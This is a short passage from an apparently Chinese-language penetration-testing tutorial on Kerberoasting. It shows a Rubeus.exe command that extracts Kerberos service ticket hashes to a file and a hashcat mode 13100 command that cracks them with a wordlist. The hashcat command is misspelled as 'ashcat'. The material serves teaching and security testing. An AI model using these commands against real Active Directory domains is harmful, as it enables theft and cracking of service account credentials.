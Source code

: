 ### 使用 Rubeus.exe

发现 `SPN`、提取 `TGS`、转储`HASH`存储到`hash.txt`

```plain
Rubeus.exe kerberoast /outfile:hash.txt
```

[![](assets/1708919803-bace8fa4dfd6660c406942514ffe5009.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142132-f5ca2158-ce25-1.png)

使用`hashcat`进行破解

```plain
ashcat -m 13100 --force -a 0 '/home/kali/Desktop/hash.txt' '/home/kali/Desktop/pass.txt'
```
